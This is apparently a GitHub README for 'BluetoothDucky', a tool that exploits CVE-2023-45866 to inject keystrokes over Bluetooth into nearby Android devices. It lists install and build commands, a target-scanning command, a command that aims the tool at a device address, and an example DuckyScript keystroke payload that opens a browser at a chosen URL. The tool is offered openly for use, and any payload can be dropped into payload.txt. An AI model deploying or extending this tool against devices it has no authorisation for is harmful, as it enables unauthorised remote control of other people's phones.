 # BluetoothDucky
CVE-2023-45866 - BluetoothDucky implementation (Using DuckyScript)

This is an implementation of the CVE discovered by marcnewlin 
[https://github.com/marcnewlin/hi_my_name_is_keyboard]

- I have created a ducky_convert.py to try not to modify the hid.py file as much as I can for future usage.
- Still working on a few payload ideas for it.

Should work in the future with any android related payload scripts such as the following from Hak5

  ```bash
   REM Title: Android Browse to URL Example
   REM Author: Hak5Darren
   REM Desscription: Opens browser. Navigates to URL.
   REM Target: "most" Android devices (compatibility varies by vendor implementation)
   REM DuckyScript: 3.0
   ATTACKMODE HID STORAGE
   WAIT_FOR_BUTTON_PRESS
   REM HID and STORAGE for convenience. Doesn't execute payload until button press.
   DEFINE URL hak5.org
   REM Change to URL of your choosing.
   GUI b
   REM Open browser
   DELAY 700
   CTRL l
   REM Select URL bar
   DELAY 700
   STRINGLN URL
   REM inject URL and press ENTER
  ```

- Just putting this code up for anyone wanting to help.

  Installation instructions (Stolen from marcnewlin)
```
# update apt
sudo apt-get update
sudo apt-get -y upgrade

# install dependencies from apt
sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev \
                    git gcc python3-pip python3-setuptools \
                    python3-pydbus

# install pybluez from source
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install

# build bdaddr from the bluez source
cd ~/
git clone --depth=1 https://github.com/bluez/bluez.git
gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
sudo cp bdaddr /usr/local/bin/
```

Then simply
```
git clone https://github.com/pentestfunctions/BluetoothDucky
cd BluetoothDucky
```

## Example Usage
```
sudo python3 BluetoothDucky.py -i hci0 -t 00:00:00:00:00:00
```
```
sudo python3 BluetoothDucky.py --scan
```

It will look for a payload.txt file in the same directory which can just be ducky script - try something simple provided in this repo to start.

